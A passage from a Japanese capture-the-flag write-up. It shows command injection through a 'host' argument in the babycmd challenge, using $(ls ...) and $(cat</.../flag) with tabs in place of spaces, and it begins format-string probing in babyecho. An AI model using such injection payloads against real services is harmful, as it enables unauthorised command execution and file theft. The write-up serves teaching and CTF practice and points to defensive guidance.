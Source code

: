 引数に渡される文字列に含まれるスペースが削られるようです。タブで代用してみました。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host A$(ls    /home/babycmd)A
Host Ababycmd
flagA not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
```


ホームディレクトリにbabycmdとflagというファイルがあることがわかりました。
catのリダイレクトでflagを抜いてしまいます。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
:  host A$(cat</home/babycmd/flag)A
Host AThe flag is: Pretty easy eh!!~ Now let's try something hArd3r, shallwe??A not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

FLAG:`Pretty easy eh!!~ Now let's try something hArd3r, shallwe??`

OSコマンドインジェクションに関連する脆弱性対策をIPAが公開してくれているので、CTFのためにも自衛のためにも一度目を通しておくことをお勧めします。

[IPA ISEC　セキュア・プログラミング講座：C/C++言語編　第10章 著名な脆弱性対策：コマンド注入攻撃対策](http://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/c909.html)

## Babyecho

### 問題文

    babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me:3232

    [Download](http://downloads.notmalware.ru/babyecho_eb11fdf6e40236b1a37b7974c53b6c3d)

### 問題
```
Reading 13 bytes
```

標準入力で待ち受けしているので、文字列を送ると標準出力に<del>そのまま</del>*的確に*返してくれるプログラムにアクセスしてflagを得る問題です。


```
Reading 13 bytes
%p.%p.%p.%p
0xd.0xa.(nil).0xd
Reading 13 bytes
0123456789abcdef
0123456789ab
Reading 13 bytes
def
Reading 13 bytes
```
